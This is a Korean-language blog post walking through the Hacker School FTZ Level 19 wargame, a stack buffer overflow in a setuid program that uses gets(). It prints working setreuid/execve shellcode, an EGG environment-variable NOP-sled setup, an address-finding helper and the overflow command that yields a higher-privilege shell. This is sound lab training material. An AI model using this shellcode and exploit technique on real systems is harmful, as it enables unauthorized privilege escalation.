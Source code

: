 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 19"
description: "Do you know the ?"
comments: true
categories: ftz
---
```


<img data-action="zoom" src='{{ "assets/ftz/level19/1.jpg" | relative_url }}' alt='relative'>  

## 1) level19/swimming in pink 입력해 로그인  

``` c 
main()
{ char buf[20];
  gets(buf);
  printf("%s\n",buf);
}
```

<img data-action="zoom" src='{{ "assets/ftz/level19/2.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level19/3.png" | relative_url }}' alt='relative'>  

코드를 통해 gets 함수를 사용해 입력 길이에 제한을 두지 않았다는 것을 확인하였고,  
gdb로 분석해보니 buf 배열은 ebp에서 40 byte 떨어진 주소에 위치하고 bof를 방지하는 보안 대책이 없다는 것을 확인했습니다.  

RET에 쉘코드가 저장된 위치의 주소를 입력해 bof를 일으키면 쉘은 실행됩니다.  
문제는 level19 권한의 쉘이 실행된다는 것입니다.  

<img data-action="zoom" src='{{ "assets/ftz/level19/4.png" | relative_url }}' alt='relative'>  

앞서 문제에서는 프로그램 코드 내에 setreuid 함수가 호출됐었습니다.  
그러나 이번 문제에서는 setreuid 함수가 호출되지 않았습니다.  
따라서 이번 문제를 풀기 위해선 쉘코드에 setreuid 함수를 호출하는 기계어 코드를 넣어줘야 합니다.    

## 2) 쉘코드에 setreuid 함수 호출하는 기계어 추가하기  

모든 프로세스별로  
Real User ID(RUID),  
Effective User ID(EUID),  
Saved User ID(SUID)가 있습니다.  

-> RUID는 시스템에 접속한 사용자의 ID입니다. 프로세스를 시작하는 사용자를 결정하는 데 사용됩니다.    

-> EUID는 프로세스에 대한 권한을 결정합니다. 프로그램에 SetUID가 설정되어 있다면 프로세스의 권한은 일시적으로 user의 ID를 갖습니다.  

-> SUID는 이전 EUID 값을 저장하는 데 사용됩니다. SUID로 이전 EUID를 복원할 수 있습니다.  


SetUID가 설정된 attackme 파일을 실행하기 전에는 RUID=level19, EUID=level19 입니다.  

<img data-action="zoom" src='{{ "assets/ftz/level19/5.png" | relative_url }}' alt='relative'>  

attackme 프로그램이 실행하면 EUID(level19)를 SUID에 복사한 뒤,  
EUID는 level20 user의 ID를 일시적으로 갖습니다.  

attackme 프로세스가 종료하면 SUID에 저장되어 있던 값을 EUID에 복사하여 기존 권한으로 전환합니다.  


프로그램 내에서 setreuid를 호출하지 않기 때문에  
main 함수가 종료되면서 EUID는 level19 권한으로 전환되고,  
쉘코드가 저장되어 있는 위치에 가서 쉘코드를 실행시키더라도  
쉘코드에서는 execve 함수만 호출하기 때문에 RUID, EUID(level19) 권한으로 쉘이 실행됩니다.  

따라서 쉘코드에 setreuid 함수를 호출하는 기계어를 추가해야 합니다.  

<a href="https://hsong2.github.io/ftz/2021/05/24/Hacker-School-FTZ-Shellcode.html#setreuid">setreuid 함수 호출이 포함된 쉘코드 작성 방법</a>  


위 문서를 참고하여 setreuid 함수 호출 코드가 포함된 39 byte의 쉘코드를 만들 수 있었습니다.    

``` bash
\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80
```

## 3) attackme에 bof 일으켜 level20 권한의 shell 획득하기  

1) EGG 환경변수에 쉘코드 저장  

``` bash
export EGG=`python -c 'print "\x90"*30+"\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*30'`
```

2) EGG 환경변수 주소 확인하기 (1)  

``` bash
echo 'int main() { printf("ADDR -> %p\n", getenv("EGG")); }' > getenv.c
```

3) EGG 환경변수 주소 확인하기 (2)  

``` bash
gcc -o getenv getenv.c
```

4) EGG 환경변수 주소 확인하기 (3)  

``` bash
./getenv
```

5) attackme bof 공격하기

``` bash
(python -c 'print "\x90"*44+"[쉘코드가 저장된 주소]"'; cat) | ./attackme
```


<img data-action="zoom" src='{{ "assets/ftz/level19/6.png" | relative_url }}' alt='relative'>  

